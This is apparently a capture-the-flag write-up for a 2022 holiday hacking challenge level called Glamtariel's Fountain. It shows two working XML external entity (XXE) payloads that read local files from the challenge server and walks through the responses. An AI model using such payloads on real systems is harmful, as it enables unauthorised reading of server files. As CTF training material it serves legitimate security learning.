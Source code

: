 
# Objective 10: Glamtariel's Fountain
**Location: Web Ring / Fountain**  
**Hints (2x) from Hal Tandybuck**

This objective is about getting familiar with XXE attacks.

When dragging the four objects on the top right to the princess and the fountain, they respond with several hints in upper case.

After all four objects were dropped to both targets, the four items are replaced.
The same has to be done again until the four items are again replace with four rings (one red, one silver, two blue).

Based on the hints, that XXE has to applied here and the princess holds the ringlist in a very simple format, we are trying to read the ringlist using XXE from a guessed path. For this the prior POST requests to /dropped can be replayed in Burp and converted to XML (with "different language" the princess ist referring to):
```
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```
The princess responds with a picture of the folder `x_phial_pholder_2022` containing two files, `bluering.txt` and `redring.txt`

![Ringlist](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/pholder-morethantopsupersecret63842.png)

In fact we are able to get access to the red ring file using the URL https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-1.txt

![Red Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/redring-supersupersecret928164.png)

On the inside of the red ring is written `goldring_to_be_deleted.txt`.

As Glamtariel says that she really would like to have a silver ring (which is with id `img1` on screen), we switch our request over to:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE reqType [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

Glamtariel responds back with the URL of the gold ring: `static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png`


![Gold Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/goldring-morethansupertopsecret76394734.png)





